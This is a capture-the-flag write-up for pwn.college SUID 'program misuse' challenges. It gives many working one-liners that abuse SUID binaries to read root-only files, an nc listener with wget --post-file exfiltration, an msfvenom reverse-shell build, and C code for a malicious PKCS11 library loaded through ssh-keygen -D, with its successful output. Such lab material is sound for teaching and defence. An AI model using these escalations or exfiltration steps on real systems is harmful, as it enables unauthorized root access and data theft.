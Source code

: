 
Find a program with SUID bit permission
```bash
$ find / -user root -perm -4000 -print 2>/dev/null 
$ find / -perm -u=s -type f 2>/dev/null 
$ find / -user root -perm -4000 -exec ls -ldb {} \;
```

Program candidates with privilege escalation sample for read only `/flag` permission for root user
```bash
$ env -S cat /flag
$ genisoimage -sort /flag
$ ar -q fake.ar /flag;cat fake.ar
$ echo "/flag" | cpio -o
$ find /flag -exec cat {} \;
$ setarch x86_64 cat /flag
$ whiptail --textbox /flag 10 60
$ tar -cvf fake.tar /flag;tar xf fake.tar -O
$ tar cvf /flag -I; cat flag.tar
$ tar xf /flag -I '/bin/sh -c "cat 1>&2"'
$ socat - /flag
$ cp /flag /dev/stdout
$ mv /usr/bin/cat /usr/bin/mv; mv /flag
$ perl -ne print /flag
$ python -c 'print(open("/flag").read())'
$ bash -p
$ date -f /flag
$ gcc -E -x c /flag
$ bzip2 /flag; bzip2 -dc /flag.bz2
$ unzip -p flag.zip flag | less
$ find . -exec cat /flag {} \;
$ nice cat /flag
$ timeout 1 cat /flag
$ stdbuf -o 0 cat /flag
$ watch -x cat /flag
$ awk 'BEGIN{ while(( getline line<"/flag") > 0 ) { print line } }'
$ sed p /flag
$ dmesg -F /flag
$ wc --files0-from=/flag
$ as /flag
```

`ed`
```bash
$ ed /flag
> p
```

`wget`
```bash
$ nc -lvnp 4554 # terminal session 1
$ wget --post-file=/flag http://127.0.0.1:4554 # terminal session 2
```

`make`
Create a Makefile with the content:
```make
FLAG := $(shell cat /flag) 
ok: 
	echo $(FLAG)
```

```bash
$ make -f Makefile
```

`ruby`
Create a ruby script with the content:
```ruby
readData = File.read("/flag") 
puts readData
```

```bash
$ ruby script.rb
```

`ssh-keygen` ? yes with `-D` parameter to load dynamic shared library

```bash
$ ssh-keygen -D ourlib2shell.so #write ORW dynamic shared library to read the flag
```

My first attempt was to generate a dynamic shared library from `msfvenom`
```bash
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=5100 -f elf-so -o lib2shell.so
```
and run `netcat` to terminal session 2.

```
./lib2shell.so does not contain expected string C_GetFunctionList
provider ./lib2shell.so is not a PKCS11 library
cannot read public key from pkcs11
```

The exploit won't work because `ssh-keygen -D ` expects pkcs11 library (maybe this will work in older version of `ssh`?) and `lib2shell.so` does not really implements pkcs11 interface.

Second attempt, going through [Sean Pesce's Research Blog](https://seanpesce.blogspot.com/2023/03/leveraging-ssh-keygen-for-arbitrary.html "https://seanpesce.blogspot.com/2023/03/leveraging-ssh-keygen-for-arbitrary.html)  that applies patches, also `hello.so` won't work so we need to write our own ORW that implements pkcs11 as our third attempt.

Third attempt, I found [jariq's pkcs11 projects](https://stackoverflow.com/a/65446632) , EMPTY-PKCS11 doesn't have `C_GetFunctionList` so I chose his minimal [PCKS11-MOCK](https://github.com/Pkcs11Interop/pkcs11-mock) and modified it to read the `/flag` or we can spawn a root shell.  To make this work modify the `C_Initialize` interface implementation with
```c
...
#include <stdio.h>
#include <unistd.h>
// #define SHELL_COMMAND "/bin/sh"
...

CK_DEFINE_FUNCTION(CK_RV, C_Initialize)(CK_VOID_PTR pInitArgs)
{
    puts("[pkcs11-mock by relro for pwn.college level 51 HARDDDDDDD]");
    printf("Reading the flag");
    // Read the /flag file
    char flag[500];
    FILE *fp;

    fp = fopen("/flag", "r");
    if (fp == NULL) {
        printf("Could not open file /flag");
        return 1;
    }
    fgets(flag, 500, fp);
    printf("Flag: %s\n", flag);

    // long long err = execl(SHELL_COMMAND, "/bin/sh", "-c", SHELL_COMMAND, NULL);
    // printf("Result: %lld\n", err);

    if (CK_TRUE == pkcs11_mock_initialized)
        return CKR_CRYPTOKI_ALREADY_INITIALIZED;
    IGNORE(pInitArgs);
    pkcs11_mock_initialized = CK_TRUE;
    return CKR_OK;
}
```

Then run `build/linux/build.sh` to build our `pkcs11-mock.so` and transfer it to our ssh target remote connection with `scp`.
```bash
$ scp -i key -r pkcs11-mock-x64.so hacker@dojo.pwn.college:/home/hacker/
```

Run the the exploit to the target machine with 
```
hacker@program-misuse-level-51:~$ ssh-keygen -D ./pkcs11-mock-x64.so 
[pkcs11-mock by relro for pwn.college level 51 HARDDDDDDD]
Reading the flag
Flag: pwn.college{you_need_to_perform_this_okay?}

C_GetAttributeValue failed: 18
Enter PIN for 'Pkcs11Interop': 
```

It works, this will work also in your current linux machine with ssh-keygen. You better check your program's permissions and nuke them if needed so.

# References
https://pwn.college/fundamentals/program-misuse
[https://hurricane618.me/2022/05/26/pwn-college-writeup-one/](https://hurricane618.me/2022/05/26/pwn-college-writeup-one/ "https://hurricane618.me/2022/05/26/pwn-college-writeup-one/")
[https://seanpesce.blogspot.com/2023/03/leveraging-ssh-keygen-for-arbitrary.html](https://seanpesce.blogspot.com/2023/03/leveraging-ssh-keygen-for-arbitrary.html "https://seanpesce.blogspot.com/2023/03/leveraging-ssh-keygen-for-arbitrary.html")
https://github.com/Pkcs11Interop/pkcs11-mock
[https://medium.com/@D00MFist/generate-keys-or-generate-dylib-loads-c99ed48f323d](https://medium.com/@D00MFist/generate-keys-or-generate-dylib-loads-c99ed48f323d "https://medium.com/@D00MFist/generate-keys-or-generate-dylib-loads-c99ed48f323d")
https://stackoverflow.com/questions/65444761/how-to-go-about-writing-a-pkcs11-wrapper-around-my-device

